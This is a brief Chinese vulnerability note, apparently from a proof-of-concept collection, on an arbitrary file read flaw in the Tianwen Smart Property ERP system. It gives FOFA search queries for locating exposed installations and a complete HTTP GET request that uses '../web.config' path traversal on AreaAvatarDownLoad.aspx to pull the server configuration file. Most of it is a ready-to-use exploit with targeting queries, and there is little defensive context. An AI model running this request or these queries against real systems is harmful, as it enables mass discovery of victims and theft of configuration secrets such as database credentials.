 天问智慧物业ERP多处接口存在任意文件读取漏洞
手动复现过程
资产测绘：
FOFA：
body="天问物业ERP系统" || body="国家版权局软著登字第1205328号" || body="/HM/M_Main/frame/sso.aspx"

poc验证代码
GET /HM/M_Main/InformationManage/AreaAvatarDownLoad.aspx?AreaAvatar=../web.config HTTP/1.1
Host:  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
